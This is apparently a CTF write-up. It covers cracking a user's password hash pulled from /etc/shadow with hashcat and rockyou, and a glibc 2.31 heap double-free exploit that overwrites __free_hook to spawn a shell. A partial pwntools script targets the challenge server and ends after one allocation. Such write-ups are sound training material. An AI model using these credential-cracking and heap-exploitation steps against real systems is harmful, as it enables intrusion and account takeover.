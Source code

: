 # Hidden flag

When viewing the meeting_notes.txt on dumped it mentions about the user waldo. So we take the hash value of waldo user from /etc/shadow file (sha512crypt) using the root perms in dumped chall but it does not contain the flag and after cracking the value we found that the password is deadbeef(hashcat -m 1800 -a 0 hash.hash  /usr/share/wordlists/rockyou.txt) . In got2win chall the user is ctf which does not has the root perms but has the flag . So we need to login to waldo using the cracked password deadbeef and then view the sensitive data.txt file which has the flag.

# Notes

1) This is a classical heap note challenge where we can add ,view and  delete notes. And the libc given for the challenge is 2.31 the standard libc used for the ubuntu 20.04. This libc has tcache enabled which has some ways to exploit by exploiting the tcachebin single linked list. 

2) There is no win function present here in this challenge that allows us to easily jump and get shell. So we have to work our way through to get the shell and get the shell.

3) After analysing the code. There is no code present to null the chunk pointer after freeing the chunk. We don't have an edit option. So we cannot perform a Use after free which makes exploiting this challenge much easier with less steps. So we can basically free the same chunk multiple times and create a double free scenario. But this libc version has a check that prevents double free scenario by checking the second quadword of the tcache chunk with the address of tcache the first chunk in the heap if the check succeeds then it aborts stating that double free detected in tcache2. 

4) But first we need libc leak so that we can tamper the hooks to get RIP control. So we first allocate a huge chunk greater than the tcache limit and then a small chunk to prevent chunk consolidation. And then free the huge chunk and view the chunk to get unsortedbin metadata(libc leak). And then proceed to allocate more tcache size chunks and then free it more than 8 chunks to get past the tcache max amount for a size and ten push it to fastbin and then create a double free scenario by a,b,a to tamper the chunk fd to free_hook and then finally allocate the chunks till we get the free hook and then write it with the address of system and then free the chunk where we written the string **"/bin/sh\x00"** to execute **system("/bin/sh\x00") **.

   ```python
   #!/usr/bin/env python3
   
   
   from pwn import *
   
   
   e = ELF("./notes")
   #r = process("./notes")
   r = remote("34.100.187.70",7777)
   libc = ELF("/lib/x86_64-linux-gnu/libc.so.6")
   
   
   def add(index,size,data):
       r.sendlineafter(b"Select an option:",b"a")
       r.sendlineafter(b"page:",f"{index}")
       r.sendlineafter(b"size:",f"{size}")
       r.sendafter(b"note:",data)
   
   def view(index):
       r.sendlineafter(b"Select an option:",b"b")
       r.sendlineafter(b"page:",f"{index}")
       libc_leak = u64(r.recvuntil(b"\x7f").strip().decode('latin-1').ljust(8,'\x00'))
       return libc_leak
   
   def delete(index):
       r.sendlineafter(b"Select an option:",b"d")
       r.sendlineafter(b"page:",f"{index}")
   
   add(0,0x500,b"A" * 0x18)
   ```